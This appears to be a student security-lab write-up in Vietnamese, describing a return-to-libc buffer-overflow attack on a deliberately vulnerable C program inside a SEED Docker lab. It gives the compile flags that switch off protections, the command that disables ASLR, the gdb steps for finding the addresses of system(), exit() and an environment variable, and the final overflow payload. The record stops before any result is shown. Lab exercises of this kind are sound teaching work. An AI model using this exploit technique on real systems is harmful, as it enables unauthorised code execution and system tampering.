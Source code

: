 ### T3 T1 
***
* 1: Ánh xạ file qua máy ảo docker
  ```
  docker run -it --privileged -v "C:/Users/Win 10/Seclabs:/home/seed/seclabs" img4lab
  ```
  ![image](https://github.com/user-attachments/assets/eb9cb947-ee03-4e6b-a2ac-3084b92f1c23)

* 2: Biên dịch và liên kết file
  ```
  gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
  ```
  ![image](https://github.com/user-attachments/assets/80f3997a-dd04-4754-9a52-4584c7249de1)

  ```
  nasm -g -f elf shell.asm
  ```
  ```
  ld -m elf_i386 -o shell shell.o
  ```
  ![image](https://github.com/user-attachments/assets/418d8a47-b3ac-41d8-bdbe-a1e586ebb657)

* 3: Sử dụng bash cũ + tắt chế độ cấp phát ngẫu nhiên
  ```
  sudo ln -sf /bin/zsh /bin/sh
  ```
  ```
  sudo sysctl -w kernel.randomize_va_space=0
  ```
  ![image](https://github.com/user-attachments/assets/54910645-bf41-42ef-bf1f-a640992a6e7a)

* 4: lấy đường dẫn và tạo biến môi trường
  ```
  pwd
  ```
  ![image](https://github.com/user-attachments/assets/d3759c3f-cf6b-46fd-94dd-6d84857813e6)

  `/home/seed/seclabs/exercises/t3`

  ```
  export my_path="/home/seed/seclabs/exercises/t3/shell"
  ```
  Kiểm tra biến đã được taoh hay chưa:
  ```
  echo $my_path
  ```
  ![image](https://github.com/user-attachments/assets/9e01c42f-e180-434c-b6e0-d47e8b80eddf)

* 5: điểm qua stackframe
  ![image](https://github.com/user-attachments/assets/526a90a3-a709-4df4-ae42-3a132f22215f)


  Mục tiêu: ta cần phải chèn 16 + 4 bytes để có thể tràn xuống return address. Và khi tới return address,
  ta sẽ chèn địa chỉ của system vào return address + chèn tiếp 4 bytes địa chỉ exit() vào Argc + chèn 4 bytes biến my_path vào agrv

  => code của shell sẽ được thực hiện và nó sẽ tạo ra 1 file mới trong /etc/hosts 
* 6: Vào gdb của `vuln.out` lấy địa chỉ của system(), exit(), my_path
  ![image](https://github.com/user-attachments/assets/29247c42-b7f2-48e7-8fbb-83e97c960602)
  
  Chạy trong gdb `start`

  ![image](https://github.com/user-attachments/assets/9f5d5f13-1793-4f7b-aa91-5246ae8073be)

  Địa chỉ của `system`: `0xf7e50db0` => `\xb0\x0d\xe5\xf7`

  Địa chỉ của `exit` : `0xf7e449e0` => `\xe0\x49\xe4\xf7`

  Địa chỉ của my_path : `0xffffdf3b` => `\x3b\xdf\xff\xff`


* 7: chạy chương trình
  ```
  r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x3b\xdf\xff\xff')")
  ```
  ![image](https://github.com/user-attachments/assets/3215abe8-808b-4cb8-9d3d-bbc312ac145c)

  * trước khi chạy chương trình
    ![image](https://github.com/user-attachments/assets/b1ddc2a5-0e89-4cc5-900f-d0ad57fcd0ab)
  * sau khi chạy chương trình
    
    
